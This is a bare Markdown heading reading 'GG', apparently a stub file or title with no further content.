# GG 
